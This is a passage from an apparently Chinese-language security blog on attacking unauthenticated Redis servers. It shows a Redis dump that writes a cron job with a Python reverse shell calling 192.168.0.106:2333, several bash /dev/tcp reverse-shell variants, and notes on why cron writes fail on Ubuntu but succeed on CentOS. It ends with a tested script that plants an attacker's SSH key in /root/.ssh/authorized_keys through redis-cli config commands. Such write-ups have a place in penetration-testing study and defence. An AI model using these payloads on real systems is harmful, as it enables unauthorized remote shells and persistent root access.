 ```shell
REDIS0008ú      redis-ver^E4.0.9ú
redis-bitsÀ@ú^EctimeÂ^G^@^S_ú^Hused-memÂè!^M^@ú^Laof-preambleÀ^@þ^@û^A^@^@À^AÃ@Á@ù^C

* * * * * /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.106",2333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


ÿ¸l<8e>Ø^Z<9c><90>
```
最后发现是不行的，cron log报时间格式错误、语法错误，
![/data/typora_assets/redis/20200718221117435.png](https://i.loli.net/2020/07/24/wWsuCKPoB5YF3vj.png)
总结：

- centos下可以成功写crontab反弹shell。
- ubuntu下无法写crontab反弹shell，主要原因在于ubuntu对于crontab格式要求比较严格，不允许有语法出错，而redis在写入的时候，在前、后都会附加redis的一些信息；另外就是ubuntu下利用crontab使用bash反弹shell是无法成功的，原因是执行 crontab 使用的是 `/bin/sh` , 而ubuntu下` /bin/sh` 软连接的是dash ，而不是 bash，那么如果你直接在 cron 里面写 bash - i xx 的反弹是不可能成功的，解决方法有三种，一种是改写为`bash -c "bash -i  >&/dev/tcp/192.168.0.106/2333 0>&1"`，另一种就是使用 python 调用 `/bin/sh` 反弹 shell ，还有一种可以尝试写 bash 文件，然后用 crontab 去执行。比如/tmp/test.sh
    ```shell
    #!/bin/bash
    /bin/bash -i >& /dev/tcp/192.168.0.106/2333 0>&1
    ```
注意此处为`#!/bin/bash`而非`#!/bin/sh`，然后为test.sh加上执行权限`chmod +x /tmp/test.sh`，之后任务计划里的内容修改为`* * * * * /tmp/test.sh`。
利用python可以成功反弹shell，但是python反弹shell的payload比较长，利用redis写到crontab文件的时候会发生莫名的payload截断；最后就是ubuntu用户定时任务必须在600权限才能执行，否则提示INSECURE MODE不予执行。

#### webshell

需要知道web目录

#### ssh key

```shell
# xiaopo @ fht in ~ [22:20:29] C:130
$ cat ~/.ssh/id_rsa.pub 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDOVgEY/clVIFD7U/pbZly0jW5PJs6BV8gG6hKvQT3FjQUpMNADHy/MgjIoeBQpCLSRv5fOHSLVdxFgTe8qgX6s8wR1JlLPCgRPAfr8LbpxQcuw5zVqbA9DsYxEf+6Qry+SeZWXOB8tHWSZBMK7BX09g1y/hTEsrd1d/VoPBci8kUsuybqnaoRGz8p4YaJFl+jiI5SIcTb/mJTcyPOK0hFCDL7ylSJLXn/BaT5E8dPuZzj+Oha+k8PabEf0V22Jmt7gDL7e7Omit277liorsNARBH4LccPk9T9cOdmlxMswjEA3+Xbb6f3kgYaxEg6SHEWkSvMyt+x3NM6R76q5H8Nx xiaopo@fht
```
sshkey.sh内容如下，
```shell
echo -e "\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDOVgEY/clVIFD7U/pbZly0jW5PJs6BV8gG6hKvQT3FjQUpMNADHy/MgjIoeBQpCLSRv5fOHSLVdxFgTe8qgX6s8wR1JlLPCgRPAfr8LbpxQcuw5zVqbA9DsYxEf+6Qry+SeZWXOB8tHWSZBMK7BX09g1y/hTEsrd1d/VoPBci8kUsuybqnaoRGz8p4YaJFl+jiI5SIcTb/mJTcyPOK0hFCDL7ylSJLXn/BaT5E8dPuZzj+Oha+k8PabEf0V22Jmt7gDL7e7Omit277liorsNARBH4LccPk9T9cOdmlxMswjEA3+Xbb6f3kgYaxEg6SHEWkSvMyt+x3NM6R76q5H8Nx xiaopo@fht\n\n"|redis-cli -h $1 -p $2 -x set 1
redis-cli -h $1 -p $2 config set dir /root/.ssh/   # 指定本地数据库存放目录
redis-cli -h $1 -p $2 config set dbfilename authorized_keys  # 指定本地数据库文件名，默认值为dump.rdb
redis-cli -h $1 -p $2 save
redis-cli -h $1 -p $2 quit
```
以上代码在centos7测试并连接成功，当然前提需要有/root/.ssh/这个目录，
